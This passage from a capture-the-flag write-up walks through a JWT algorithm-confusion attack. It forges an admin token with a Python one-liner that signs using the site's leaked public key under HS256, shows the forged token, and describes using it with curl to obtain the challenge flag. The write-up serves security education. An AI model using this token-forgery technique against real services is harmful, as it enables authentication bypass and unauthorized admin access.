<img src= "images/unlockme4.PNG" width = "700">

Going back to the original site, if we inspect the source code, there is a TODO comment saying to "add client side verification using public.pem". This means that the public.pem (aka the public signing key) is directly obtainable from the challenge site. Sure enough, if we access the `/public.pem` endpoint we automatically download the public key. We have everything we need to forge the JWT and carry out our attack.

We can use Python to forge the new JWT. In command line:
```bash
python -c 'import jwt;print(jwt.encode({"username":"minion","role":"admin","iat":1607320016},key=open("public.pem", "r").read(),algorithm="HS256"))'
```
Outputs the token:
```
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzMyMDAxNn0.oNbzc6cNBG6KtVNB6Sw9k2Xg0TRGF8QW5PeJ1f_517w'
```

We then use curl to query the `/unlock` endpoint from earlier, setting the `Authorization` field in our request header to the JWT token.

<img src= "images/unlockmeflag.PNG" width = "700">


**Flag**: `govtech-csg{5!gN_0F_+h3_T!m3S}`

&nbsp;

#### References:
* https://www.nccgroup.com/sg/about-us/newsroom-and-events/blogs/2019/january/jwt-attack-walk-through/